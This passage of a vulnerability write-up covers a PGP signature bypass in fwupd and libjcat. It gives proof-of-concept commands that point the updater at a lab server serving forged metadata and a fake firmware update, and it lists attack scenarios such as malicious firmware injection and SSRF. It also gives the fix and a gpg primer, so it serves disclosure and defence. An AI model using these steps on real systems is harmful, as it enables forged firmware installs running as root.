Failed to update metadata for lvfs: '48A6D80E4538BAC2' is not a valid signature
```

Finally, when the `MetadataURI` setting is pointed at the "Bypass" endpoint,
the signature verification succeeds and the XML is honoured. We find that the
XML has been installed in `/var/lib/fwupd/`

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/bypass/firmware.xml.gz

$ fwupdmgr refresh
Fetching metadata http://172.17.24.1:4444/bypass/firmware.xml.gz
Downloading…             [***************************************]
Fetching signature http://172.17.24.1:4444/bypass/firmware.xml.gz.asc

Successfully downloaded new metadata: 0 local devices supported


$ ls -la /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
-rw-r--r-- 1 root root 68 May 15 16:52 /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz

$ zcat /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
<?xml version="1.0" encoding="ISO-8859-1"?>
        <poc>&fwupd_poc;</poc>
```


### Proof of Concept - Actually offering a firmware update

To offer a firmware update, we need to populate `firmware.xml.gz` with metadata entries that:

* Pertain to a hardware device UUID installed on the system
* Advertise a firmware version number greater than the version already installed on the device
* Provide a sane "UpdateProtocol" for the device
* Provide a URL of a `.cab` file and its corresponding cryptographic hash

To do so, two new endpoints were added to the Flask app to dynamically generate
the signed metadata and corresponding `.cab` file:

* `/poc/uuid/<UUID>/version/<VERSION>/updateprotocol/<UPDATE_PROTOCOL>/firmware.xml.gz`
  * Returns XML metadata that advertises a firmware for the given `UUID`, `VERSION` and `UPDATE_PROTOCOL` parameters
* `/poc/uuid/<UUID>/version/<VERSION>/updateprotocol/<UPDATE_PROTOCOL>/poc.cab`
  * Returns a `.cab` file containing an empty firmware file for the given `UUID`, `VERSION` and `UPDATE_PROTOCOL` parameters

On my machine, I found that I could publish an update for my "ThinkPad
Thunderbolt 3 Dock USB Audio" device using the following parameters:

* UUID: 0922fea5-b1c1-5072-bc18-e178bbedce1
* Version: 1.337 (Debian Stretch) or 13-37-00 (Debian Sid)
* Update Protocol: com.synaptics.cxaudio


#### POC: Debian Stretch (currently oldstable)

`fwupd` v0.7.4-2 is installed. By default it points at the dangling S3 bucket.

```
$ dpkg -l fwupd
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-=================================
ii  fwupd          0.7.4-2      amd64        Firmware update daemon
```

When we do a `refresh` we can see our malicious firmware update showing as available:

```
$ grep -P '^DownloadURI' /etc/fwupd.conf
DownloadURI=http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/1.337/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz

$ fwupdmgr refresh

$ fwupdmgr get-updates
ThinkPad Thunderbolt 3 Dock USB Audio has firmware updates:
ID:                      com.hacker.firmware
GUID:                    d66bf84b-c3ba-508c-bc55-0d445413d3d4
GUID:                    0922fea5-b1c1-5072-bc18-e178bbedce19
Update Version:          1.337
Update Checksum:         00c3342aeb4276b9b0c4fb7d853fd57aadb27cb8
Update Checksum Type:    sha1
Update Location:         http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/1.337/updateprotocol/com.synaptics.cxaudio/poc.cab
Update Description:      Totally not malicious ;)
```

It is also shown as available by `gnome-software`:


#### POC: Debian Sid (unstable)

`fwupd` v1.3.9 is installed. Note that by default it **does not** point at the
dangling S3 bucket.

```
$ fwupdmgr --version
client version: 1.3.9
compile-time dependency versions
        gusb:   0.3.4
        efivar: 37
daemon version: 1.3.9
```

When we do a `refresh` we can see our malicious firmware update showing as available:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz

$ fwupdmgr refresh --force
Fetching metadata http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz
Downloading…             [***************************************]
Fetching signature http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz.asc

Successfully downloaded new metadata: 1 local device supported

$ fwupdmgr get-updates
• SVGA II Adapter has no available firmware updates
VirtualBox
│
└─ThinkPad Thunderbolt 3 Dock USB Audio:
  │   Device ID:           54f0d9041b6c5438c7ff825f5139559c5ca1b222
  │   Summary:             CX20985 USB audio device
  │   Current version:     04-0E-83
  │   Bootloader Version:  02.00.00.00
  │   Vendor:              Lenovo (USB:0x17EF)
  │   Install Duration:    3 seconds
  │   GUIDs:               0922fea5-b1c1-5072-bc18-e178bbedce19
  │                        1d987aa4-e89a-5bd3-b78c-5ec8bdc6e213
  │                        d66bf84b-c3ba-508c-bc55-0d445413d3d4
  │                        7083139e-9fec-5fc3-9e1a-a0fb3ae1bccf
  │   Device Flags:        • Updatable
  │                        • Supported on remote server
  │ 
  └─TotallyNotMalicious:
        New version:       13-37-00
        Remote ID:         lvfs
        Summary:           This is fine
        License:           Unknown
        Duration:          2 minutes
        Flags:             is-upgrade
        Description:       Totally not malicious ;)
```

It is also shown as available by `gnome-software`:




### Recommended fix

Check that `gpgme_op_verify_result()` returns a `result` with a non-zero number
of signatures.

```diff
        /* verify the result */
        result = gpgme_op_verify_result (self->ctx);
        if (result == NULL) {
                g_set_error_literal (error,
                                     FWUPD_ERROR,
                                     FWUPD_ERROR_INTERNAL,
                                     "no result record from libgpgme");
                return NULL;
        }

+    /* validate the result */
+    if (result->signatures == NULL) {
+        g_set_error_literal (error,
+                     FWUPD_ERROR,
+                     FWUPD_ERROR_INTERNAL,
+                     "no signatures from libgpgme");
+        return NULL;
+    }

        /* look at each signature */
        for (s = result->signatures; s != NULL ; s = s->next ) {
                g_debug ("returned signature fingerprint %s", s->fpr);
                if (!fu_keyring_gpg_check_signature (s, error))
                        return NULL;

                /* save details about the key for the result */
                if ((gint64) s->timestamp > timestamp_newest) {
                        timestamp_newest = (gint64) s->timestamp;
                        g_string_assign (authority_newest, s->fpr);
```

This fix was adopted in <https://github.com/fwupd/fwupd/commit/21f2d12> and
<https://github.com/hughsie/libjcat/commit/839b89f>

It would also be prudent to invert the logic of "looking at each signature".
Currently, the code checks to ensure that there are zero "bad" signatures. It
would be safer to instead ensure that there is at least one "good" signature.


## Vulnerability: Metadata signature verification bypass in `fwupd` &gt;=1.4.0

`fwupd` 1.4.0 switched from using raw PGP signatures to using `jcat` signatures (<https://github.com/fwupd/fwupd/commit/d5aab65>)

<https://github.com/hughsie/libjcat> says:

> \[libjcat\] allows reading and writing gzip-compressed JSON catalog files, which can be used to store GPG, PKCS-7 and SHA-256 checksums for each file.
>
> This provides equivalent functionality to the catalog files supported in Microsoft Windows.

An example decompressed `jcat` document is as follows:

```
% curl -s https://cdn.fwupd.org/downloads/firmware.xml.gz.jcat | zcat | jq .
{
  "JcatVersionMajor": 0,
  "JcatVersionMinor": 1,
  "Items": [
    {
      "Id": "firmware-00550-stable.xml.gz",
      "AliasIds": [
        "firmware.xml.gz"
      ],
      "Blobs": [
        {
          "Kind": 4,
          "Flags": 1,
          "Timestamp": 1590595242,
          "Data": "cf5d00b5c40eacd5985712cf73690798a716a9fe"
        },
        {
          "Kind": 1,
          "Flags": 1,
          "Timestamp": 1590595242,
          "Data": "92248e321551ef3885f432fce942540279b5c624b931b4029a5f9889c8d0452b"
        },
        {
          "Kind": 2,
          "Flags": 1,
          "Timestamp": 1590595243,
          "Data": "-----BEGIN PGP SIGNATURE-----\nVersion: GnuPG v2.0.22 (GNU/Linux)\n\n[... SNIP PGP signature removed... ]\n-----END PGP SIGNATURE-----\n"
        },
        {
          "Kind": 3,
          "Flags": 1,
          "Timestamp": 1590595243,
          "Data": "-----BEGIN PKCS7-----\n[... SNIP PKCS7 signature removed ...]\n-----END PKCS7-----\n"
        }
      ]
    }
  ]
}
```

That is, a `jcat` document contains:

* Plain cryptographic hashes (e.g. SHA); and
* Signatures (PGP and/or PKCS7)

The PGP signature verification code in `libjcat` was taken directly from
`fwupd` (<https://github.com/hughsie/libjcat/blob/0.1.2/libjcat/jcat-gpg-engine.c#L249-L287>)
and so it inherited the PGP verification bypass vulnerability.


### Proof of Concept

The Flask app was extended to also provide `.jcat` signature documents for each
of the "Unknown Key", "Invalid Signature" and "Bypass" endpoints detailed earlier.

`fwupd` v1.4.1 was installed from source.

```
$ fwupdmgr --version
client version: 1.4.1
compile-time dependency versions
        gusb:   0.3.4
        efivar: 37
daemon version: 1.4.1
```

When the `MetadataURI` setting is pointed at the "Detached Unknown Key"
endpoint, we get a "no signatures supplied" error when refreshing the metadata:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz

% fwupdmgr refresh --force
WARNING: The daemon has loaded 3rd party code and is no longer supported by the upstream developers!
Fetching signature http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz.jcat
Downloading…             [***************************************]
Fetching metadata http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz

Failed to update metadata for lvfs: signatures were required, but none supplied
```


When the `MetadataURI` setting is pointed at the "Detached Bad Signature"
endpoint, we get the same error when refreshing the metadata:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

$ fwupdmgr refresh --force
WARNING: The daemon has loaded 3rd party code and is no longer supported by the upstream developers!
Fetching signature http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz.jcat
Downloading…             [***************************************]
Fetching metadata http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

Failed to update metadata for lvfs: signatures were required, but none supplied
```

Finally, when the `MetadataURI` setting is pointed at the "Bypass" endpoint,
the signature verification succeeds and the XML is honoured. We find that the
XML has been installed in `/var/lib/fwupd/`

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/bypass/firmware.xml.gz

$ fwupdmgr refresh --force
WARNING: The daemon has loaded 3rd party code and is no longer supported by the upstream developers!
Fetching signature http://172.17.24.1:4444/bypass/firmware.xml.gz.jcat
Downloading…             [***************************************]
Fetching metadata http://172.17.24.1:4444/bypass/firmware.xml.gz

Successfully downloaded new metadata: 0 local devices supported


% ls -la /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
-rw-r--r-- 1 root root 84 May 28 15:18 /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz

$ zcat /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
<?xml version="1.0" encoding="ISO-8859-1"?>
        <poc>&fwupd_poc;</poc>
```


### Recommended Fix

Because the vulnerable code was taken from `fwupd`, the recommended fix is the
same as above.


## Appendix A - Theoretical attack scenarios for the S3 bucket takeover and signature verification bypass

Possible attack scenarios and further research opportunities:

* Redirect clients to a large download (e.g. Operating System ISOs) causing high bandwidth and memory/disk space usage
* Serve to clients the entire script of the Bee Movie
* Redirect clients to cleartext HTTP and serve up EICAR or malware IOC's, triggering IDS systems with false-positives
* Redirect clients from S3 to some dynamic attack infrastructure which could:
    * Proxy through to the genuine LVFS CDN (Doing fixups as needed to have the older clients accept the new metadata)
    * Observe which firmware updates are downloaded from which IP addresses
    * Identify "hot" firmwares for malicious firmware development
    * Inject malicious updates for these firmwares/devices
* Redirect clients to localhost or the internal network, using it as an SSRF primitive
* Audit the codepaths that run as root - the XML/AppStream parsing code; `.cab` parsing code; and firmware flashing code. Vulnerabilities in these codepaths could theoretically lead to RCE as root on legacy `fwupd` clients.


## Appendix B - A PGP Signature Type Primer

PGP, and hence `gnupg`, supports distinct "types" of signatures:

* Normal signatures, in which the data being signed and the signature of the data are both encapsulated in a self-contained machine-readable PGP container
    * You may use just the signature container alone to verify the signature against the embedded data
    * You may use just the signature container alone to retrieve ("decrypt") the original data
* Cleartext signatures, in which the data being signed and the signature of the data are both encapsulated in a self-contained PGP container which is machine-readable, but also human-readable without special software
    * You may use just the signature container alone to verify the signature against the embedded data
    * You may use just the signature container alone to view the original data. It's there in plain sight.
* Detached signatures, in which only the signature of the data is encapsulated in a machine-readable PGP container.
    * You **cannot** use just the signature container alone to verify the signature. You also need a copy of the data as a separate file.
    * You **cannot** use just the signature container alone to read the data that was signed. The data is always in a separate file.


|                      | Contains Original Data      | Can Validate Signature By Itself  |
| -------------------- |:---------------------------:| :--------------------------------:|
| Normal Signature     | Encoded                     | Yes                               |
| Cleartext Signature  | Clear Text                  | Yes                               |
| Detached Signature   | **No** (Separate data file) | **No** (Needs separate data file) |


### Normal signatures

You can produce a normal signature using `gpg --sign`

```
$ echo 'Hello, world!' | gpg --sign --armor --local-user 'Test Key'

-----BEGIN PGP MESSAGE-----

owEBawGU/pANAwAKAeRlCte1i0n+AcsUYgBeuMkxSGVsbG8sIHdvcmxkIQqJAUME
AAEKAC0WIQT2O4y/zuE+BX9LYKvkZQrXtYtJ/gUCXrjJMQ8cdGVzdEBsb2NhbGhv
c3QACgkQ5GUK17WLSf7Bjwf9HcsrRLehE8a8j3IfZZ6rcnmk5i0ef/gAHJKpn92h
8IkqTMUr7GFGtNg9zXy81IaEXa6KL/lORv7E68D80fqc1WhQjcPr8AxiV+oVWrqF
iETk1MUnx4wjDM/j+/02sdwRmv/RHTiPd7RWKC56FmRt4OvhGhfl9TdAiU6dhVox
3cUJpJxrq26ApcB/qn3UZUvpKvrt874MG5oP5c/OHX8V6V+qg+uFqWRnGix7QhnL
8f4IPBbqZogvVCNZx8NDBMOGkwRNx2WvvyO1iP6RiRkjTboggEXIcloEvQFEVF9A
dMndUu4oGMX9or2TZgyQvxw4Kzy2lVu51NNJGsmOPk4EZg==
=21TA
-----END PGP MESSAGE-----
```

(Note that the ASCII-armored blob typically starts/ends with "PGP MESSAGE" markers)

You can view the structure of a normal signature using `gpg --list-packets`

```
$ echo 'Hello, world!' | gpg --sign --armor --local-user 'Test Key' | gpg --list-packets

# off=0 ctb=a3 tag=8 hlen=1 plen=0 indeterminate
:compressed packet: algo=1
# off=2 ctb=90 tag=4 hlen=2 plen=13
:onepass_sig packet: keyid E4650AD7B58B49FE
        version 3, sigclass 0x00, digest 10, pubkey 1, last=1
# off=17 ctb=cb tag=11 hlen=2 plen=20 new-ctb
:literal data packet:
        mode b (62), created 1589168439, name="",
        raw data: 14 bytes
# off=39 ctb=89 tag=2 hlen=3 plen=323
:signature packet: algo 1, keyid E4650AD7B58B49FE
        version 4, created 1589168439, md5len 0, sigclass 0x00
        digest algo 10, begin of digest cf 6e
        hashed subpkt 33 len 21 (issuer fpr v4 F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE)
        hashed subpkt 2 len 4 (sig created 2020-05-11)
        hashed subpkt 28 len 14 (signer's user ID)
        subpkt 16 len 8 (issuer key ID E4650AD7B58B49FE)
        data: [2045 bits]
```

(Note that the structure contains both a "literal data packet" and a "signature packet")

You can `--verify` a normal signature using only the signature itself:

```
$ echo 'Hello, world!' | gpg --sign --armor --local-user 'Test Key' | gpg --verify

gpg: Signature made Mon 11 May 2020 13:40:48 AEST
gpg:                using RSA key F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE
gpg:                issuer "test@localhost"
gpg: Good signature from "Test Key <test@localhost>" [ultimate]
```

You can retrieve the data embedded within a normal signature itself using `--decrypt`:

```
$ echo 'Hello, world!' | gpg --sign --armor --local-user 'Test Key' | gpg --decrypt

Hello, world!
gpg: Signature made Mon 11 May 2020 13:40:44 AEST
gpg:                using RSA key F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE
gpg:                issuer "test@localhost"
gpg: Good signature from "Test Key <test@localhost>" [ultimate]
```

(Note that no actual decryption is happening. Think of it as more of a "decode" operation)


### Cleartext Signatures

You can produce a cleartext signature using `gpg --clear-sign`

```
$ echo 'Hello, world!' | gpg --clear-sign --local-user 'Test Key'

-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

Hello, world!
-----BEGIN PGP SIGNATURE-----

iQFDBAEBCgAtFiEE9juMv87hPgV/S2Cr5GUK17WLSf4FAl64z5YPHHRlc3RAbG9j
YWxob3N0AAoJEORlCte1i0n+UgwH/25ldMaAbu/E0CLK8Czc/2MM9oPUnLwcVS7X
6Eo4JZqqBrRcKypFzaMi0bBdqLd3YxHkOz5t0oagNoV+IkImlZ40itIHQ9eq7KTW
L3v2Usk/vyPE4KP82i3//Illx3WBOD5XkeIhcuWGU2jLashg1401xEcM4brxDGAQ
n/kePJz8v5JoTH7c9/SogtyMWLX00DPhDrFiQzAGWSXE07qHmZh6gTuDgDnQC9V+
Z+Hk+3n8z1sSUZAWtzqEbKtJke7kNoleB/9wHDN+oDWfByE+sMnz8kNRm/9Keu4+
uthXWSyrHHHIhSdKauNUWLKDU3q0eLuY4l0uBnxpZTghobrwmxU=
=FNSX
-----END PGP SIGNATURE-----
```

(Note that the output contains both the original data, clearly visible, as well as the signature)

You can `--verify` a cleartext signature using only the signature itself:

```
$ echo 'Hello, world!' | gpg --clear-sign --local-user 'Test Key' | gpg --verify

gpg: Signature made Mon 11 May 2020 14:19:33 AEST
gpg:                using RSA key F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE
gpg:                issuer "test@localhost"
gpg: Good signature from "Test Key <test@localhost>" [ultimate]
```


### Detached Signatures

You can produce a detached signature using `gpg --detach-sign`

```
$ echo 'Hello, world!' | gpg --detach-sign --armor --local-user 'Test Key'

-----BEGIN PGP SIGNATURE-----

iQFDBAABCgAtFiEE9juMv87hPgV/S2Cr5GUK17WLSf4FAl640xcPHHRlc3RAbG9j
YWxob3N0AAoJEORlCte1i0n+4mcH/A/HQBHdM5Turv/QVeHZcTYir/cXX0GPJEmy
+oUj8/H+eAMfIYzSEgfZZ+BgABA4854FSfiewiZJSP+QofwT5fVNQukZ6+vE4xnH
bb4NQlYSISivhlAlIEm3Z5y48wZj16/inRlg2KHoFKx6hcGjts2hmoX3VL1NoESa
e4nporPK942BB3pwKo+vPxMFfCB74RYOyi3rj86bqbAZgkwRCt9JIQsXEgkQhU6v
7/FZOLcGkb40AFPE3uYh2qFwdym6+wp4mP7VBJpxz2vgGQN97PjHrCZwHnRz3ROs
g/DFTcMz2k6YCGiEmS+TxZo5CoFx71cj/ERxMznVdHAjfhLFO3c=
=3e0Y
-----END PGP SIGNATURE-----
```

(Note that the ASCII-armored blob typically starts/ends with "PGP SIGNATURE"
markers, as opposed to the normal signature which typically starts/ends with
"PGP MESSAGE" markers)

You can view the structure of a detached signature using `gpg --list-packets`

```
$ echo 'Hello, world!' | gpg --detach-sign --armor --local-user 'Test Key' | gpg --list-packets

# off=0 ctb=89 tag=2 hlen=3 plen=323
:signature packet: algo 1, keyid E4650AD7B58B49FE
        version 4, created 1589171067, md5len 0, sigclass 0x00
        digest algo 10, begin of digest cb 02
        hashed subpkt 33 len 21 (issuer fpr v4 F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE)
        hashed subpkt 2 len 4 (sig created 2020-05-11)
        hashed subpkt 28 len 14 (signer's user ID)
        subpkt 16 len 8 (issuer key ID E4650AD7B58B49FE)
        data: [2043 bits]
```

(Note that the structure contains only a "signature packet". The normal
signature also contained a "literal data packet")

You **cannot** `--verify` a detached signature using only the signature itself:

```
$ echo 'Hello, world!' | gpg --detach-sign --armor --local-user 'Test Key' | gpg --verify

gpg: no signed data
gpg: can't hash datafile: No data
```

When verifying a detached signature, you must pass two arguments to `--verify`:

* The detached signature file
* The original data file

We can use bash `<(process substitution)` to do so:

```
$ gpg --verify <(echo 'Hello, world!' | gpg --detach-sign --armor --local-user 'Test Key') <(echo 'Hello, world!')

gpg: Signature made Mon 11 May 2020 14:28:18 AEST
gpg:                using RSA key F63B8CBFCEE13E057F4B60ABE4650AD7B58B49FE
gpg:                issuer "test@localhost"
gpg: Good signature from "Test Key <test@localhost>" [ultimate]
```


### PGP Signature Type Primer Summary

* Normal/cleartext signatures contain the signature and the original data
* Detached signatures only contain the signature
* Verification of a normal/cleartext signature is done using just **one** argument - `gpg --verify <filename>`
* Verification of a detached signature is done using **two** arguments - `gpg --verify <signature_filename> <original_data_filename>`


## Appendix C - So whose fault was this anyway?

To recap, the `fwupd` signature bypass vulnerability depended on two things:

* The verification pattern in `fwupd` which assumes that if `gpgme_op_verify()` and `gpgme_op_verify_result()` execute successfully, then `gpgme_op_verify_result()` will have returned a non-zero number of signatures that can be examined
* An edge-case in `libgpgme` where doing `gpgme_op_verify()` against a non-detached signature as if it were a detached signature causes a successful verification but with a result of zero signatures

While it can be argued that the verification pattern in `fwupd` is fragile,
what is the root cause? Could the edge-case be handled better in `libgpgme`?
Does it even make sense for a `libgpgme`-based verification to be considered
"successful" if it returns zero signatures?

`libgpgme` essentially wraps the command-line `gnupg` utility. Running `fwupd`
under `strace` and then performing a metadata refresh against the "bypass" POC
endpoint shows some interesting child processes being spawned:

```
$ sudo strace -f -e execve /usr/libexec/fwupd/fwupd

[... SNIP ...]

strace: Process 16835 attached
[pid 16835] execve("/usr/bin/gpg", ["gpg", "--enable-special-filenames", "--batch", "--no-sk-comments", "--homedir", "/var/lib/fwupd/gnupg", "--status-fd", "24", "--no-tty", "--charset", "utf8", "--enable-progress-filter", "--exit-on-status-write-error", "--ttyname", "/dev/pts/2", "--ttytype", "screen-256color", "--logger-fd", "26", "--import", "--", "-&27"], 0x55c555d1a590 /* 15 vars */) = 0
[pid 16835] +++ exited with 0 +++
strace: Process 16836 attached
[pid 16836] +++ exited with 0 +++
[pid 16806] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=16836, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
strace: Process 16837 attached
[pid 16837] execve("/usr/bin/gpg", ["gpg", "--enable-special-filenames", "--batch", "--no-sk-comments", "--homedir", "/var/lib/fwupd/gnupg", "--status-fd", "24", "--no-tty", "--charset", "utf8", "--enable-progress-filter", "--exit-on-status-write-error", "--ttyname", "/dev/pts/2", "--ttytype", "screen-256color", "--logger-fd", "26", "--import", "--", "-&27"], 0x55c555d1a590 /* 15 vars */) = 0
[pid 16837] +++ exited with 0 +++
strace: Process 16838 attached
[pid 16838] +++ exited with 0 +++
[pid 16806] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=16838, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
strace: Process 16839 attached
[pid 16839] execve("/usr/bin/gpg", ["gpg", "--enable-special-filenames", "--batch", "--no-sk-comments", "--homedir", "/var/lib/fwupd/gnupg", "--status-fd", "23", "--no-tty", "--charset", "utf8", "--enable-progress-filter", "--exit-on-status-write-error", "--ttyname", "/dev/pts/2", "--ttytype", "screen-256color", "--logger-fd", "25", "--verify", "--", "-&26", "-&28"], 0x55c555d1a590 /* 15 vars */) = 0
[pid 16839] +++ exited with 2 +++
strace: Process 16840 attached
[pid 16840] +++ exited with 0 +++
[pid 16806] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=16840, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
strace: Process 16841 attached
[pid 16841] execve("/usr/bin/gpg", ["gpg", "--enable-special-filenames", "--batch", "--no-sk-comments", "--homedir", "/var/lib/fwupd/gnupg", "--status-fd", "23", "--no-tty", "--charset", "utf8", "--enable-progress-filter", "--exit-on-status-write-error", "--ttyname", "/dev/pts/2", "--ttytype", "screen-256color", "--logger-fd", "25", "--verify", "--", "-&26", "-&28"], 0x55c555d1a590 /* 15 vars */) = 0
[pid 16841] +++ exited with 2 +++
```

We see:

* Two invocations of `gpg --import` to import the LVFS PGP public keys. They exited with status 0.
* Two invocations of `gpg --verify`, each one against two file descriptors. They exited with status 2.

The invocations of `gpg --verify` are curious. They specify `--status-fd <n>`
arguments. This is to ask `gpg` to give machine-readable results on a
particular file descriptor, which `libgpgme` would use to get the outcome of
the signature verification.

We can do our own invocations of `gpg --verify` against the real LVFS metadata,
the "invalid key" POC endpoint, the "bad signature" POC endpoint, and the
"bypass" POC endpoint. We can examine the exit code, `--status-fd` and
`--logger-fd` outputs to get an understanding of what `libgpgme` would be seeing.

Test script:

```bash
#!/bin/bash

function run_test {
  echo "[+] $1 ($2)"
  echo

  file_status=$(mktemp)
  file_logger=$(mktemp)

  gpg --enable-special-filenames --batch --no-sk-comments --homedir /var/lib/fwupd/gnupg \
    --status-fd 3 --no-tty --charset utf8 --enable-progress-filter --exit-on-status-write-error \
    --ttyname /dev/pts/2 --ttytype screen-256color --logger-fd 4 --verify -- \
    <(curl -s $2.asc) \
    <(curl -s $2) \
    3>$file_status 4>$file_logger

  echo "exit status: $?"
  echo

  echo "status-fd:"
  cat $file_status
  echo

  echo "logger-fd:"
  cat $file_logger
  echo

  echo
}

run_test LVFS https://cdn.fwupd.org/downloads/firmware.xml.gz
run_test "POC: Unknown key" http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz
run_test "POC: Bad signature" http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz
run_test "POC: Bypass" http://172.17.24.1:4444/bypass/firmware.xml.gz
```

Running it:

```
# ./run_gpg_verifications.sh
[+] LVFS (https://cdn.fwupd.org/downloads/firmware.xml.gz)

exit status: 0

status-fd:
[GNUPG:] PROGRESS /dev/fd/63 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/63 ? 490 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 355629 0 B
[GNUPG:] NEWSIG
[GNUPG:] KEY_CONSIDERED 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2 0
[GNUPG:] SIG_ID QxW06/JZAL8klpNNNJlOmVVxkqg 2020-05-27 1590595243
[GNUPG:] KEY_CONSIDERED 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2 0
[GNUPG:] GOODSIG 48A6D80E4538BAC2 Linux Vendor Firmware Service <sign@fwupd.org>
[GNUPG:] VALIDSIG 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2 2020-05-27 1590595243 0 4 0 1 2 00 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2
[GNUPG:] TRUST_UNDEFINED 0 pgp

logger-fd:
gpg: Signature made Thu 28 May 2020 02:00:43 AEST
gpg:                using RSA key 48A6D80E4538BAC2
gpg: Good signature from "Linux Vendor Firmware Service <sign@fwupd.org>" [unknown]
gpg: WARNING: This key is not certified with a trusted signature!
gpg:          There is no indication that the signature belongs to the owner.
Primary key fingerprint: 3FC6 B804 410E D084 0D8F  2F97 48A6 D80E 4538 BAC2


[+] POC: Unknown key (http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz)

exit status: 2

status-fd:
[GNUPG:] PROGRESS /dev/fd/63 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/63 ? 313 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 84 0 B
[GNUPG:] NEWSIG
[GNUPG:] ERRSIG CB4DC4740BE98AE5 1 10 00 1590649082 9 3B90339A2EA1E67A85DE56CDCB4DC4740BE98AE5
[GNUPG:] NO_PUBKEY CB4DC4740BE98AE5

logger-fd:
gpg: Signature made Thu 28 May 2020 16:58:02 AEST
gpg:                using RSA key 3B90339A2EA1E67A85DE56CDCB4DC4740BE98AE5
gpg: Can't check signature: No public key


[+] POC: Bad signature (http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz)

exit status: 1

status-fd:
[GNUPG:] PROGRESS /dev/fd/63 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/63 ? 490 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/62 ? 84 0 B
[GNUPG:] NEWSIG
[GNUPG:] KEY_CONSIDERED 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2 0
[GNUPG:] KEY_CONSIDERED 3FC6B804410ED0840D8F2F9748A6D80E4538BAC2 0
[GNUPG:] BADSIG 48A6D80E4538BAC2 Linux Vendor Firmware Service <sign@fwupd.org>
[GNUPG:] FAILURE gpg-exit 33554433

logger-fd:
gpg: Signature made Thu 28 May 2020 02:00:43 AEST
gpg:                using RSA key 48A6D80E4538BAC2
gpg: BAD signature from "Linux Vendor Firmware Service <sign@fwupd.org>" [unknown]


[+] POC: Bypass (http://172.17.24.1:4444/bypass/firmware.xml.gz)

exit status: 2

status-fd:
[GNUPG:] PROGRESS /dev/fd/63 ? 0 0 B
[GNUPG:] PROGRESS /dev/fd/63 ? 423 0 B

logger-fd:
gpg: not a detached signature
```

Results:

|                     | Exit Status  | `--status-fd` Output              | `--logger-fd` Output     |
| ------------------- |:------------:| :--------------------------------:|:------------------------:|
| LVFS                | 0            | `PROGRESS`, `GOODSIG`, `VALIDSIG` | Key not trusted          |
| POC: Unknown Key    | 2            | `PROGRESS`, `ERRSIG`, `NO_PUBKEY` | No public key            |
| POC: Bad Signature  | 1            | `PROGRESS`, `BADSIG`              | Bad signature            |
| POC: Bypass         | 2            | Nothing aside from `PROGRESS`     | Not a detached signature |

What is curious is that when attempting to `--validate` the "bypass" data,
`gpg` gives a non-zero exit status and complains loudly to `--logger-fd` about
the input data being invalid ("not a detached signature"). However, there is no
corresponding `--status-fd` machine-readable output to indicate the error or
the presence of any signatures, good or bad. This lack of reporting on
`--status-fd` is a possible cause for why `libgpgme` reports seeing zero
signatures in such a case.

